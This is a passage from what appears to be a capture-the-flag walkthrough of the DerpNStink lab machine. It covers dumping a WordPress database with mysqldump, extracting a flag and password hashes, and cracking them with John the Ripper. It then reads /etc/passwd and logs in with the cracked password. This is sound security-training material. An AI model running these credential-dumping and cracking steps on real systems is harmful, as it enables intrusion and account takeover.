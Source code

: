 Let's proceed to dump and view the database.

```
$ mysqldump -uroot -pmysql wordpress > /tmp/dump.txt
```

The **second flag** and **password hashes** stood out from the dump.

```
'flag2(a7d355b26bda6bf1196ccffead0b2cf2b81f0a9de5b4876b44407f1dc07e51e6)','Flag.txt','','draft','open','open'
```

```
INSERT INTO `wp_users` VALUES (1,'unclestinky','$P$BW6NTkFvboVVCHU2R9qmNai1WfHSC41','unclestinky','unclestinky@DeRPnStiNK.local','','2017-11-12 03:25:32','1510544888:$P$BQbCmzW/ICRqb1hU96nIVUFOlNMKJM1',0,'unclestinky',''),(2,'admin','$P$BgnU3VLAv.RWd3rdrkfVIuQr6mFvpd/','admin','admin@derpnstink.local','','2017-11-13 04:29:35','',0,'admin','');
```

### John the Ripper

Using John the Ripper with a wordlist like "rockyou" on Kali Linux, cracking WordPress password hash has never been easier.

```
# john --format=phpass --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
# john --show hashes.txt
unclestinky:wedgie57:::::
admin:admin:::::
```
### Getting to South Park

Remember that we are still in the low-privileged shell? And since `/etc/passwd` is world-readable, let's enumerate the users in the host.

```
$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
…
sshd:x:117:65534::/var/run/sshd:/usr/sbin/nologin
stinky:x:1001:1001:Uncle Stinky,,,:/home/stinky:/bin/bash
ftp:x:118:126:ftp daemon,,,:/srv/ftp:/bin/false
mrderp:x:1000:1000:Mr. Derp,,,:/home/mrderp:/bin/bash
```

Let's see if we can login to Uncle Stinky's account with the password (`wedgie57`).

![screenshot-4](/assets/images/posts/derpnstink-walkthrough/screenshot-4.png)

During enumeration of Uncle Stinky's account, I discovered the third flag at `/home/stinky/Desktop/flag.txt`.
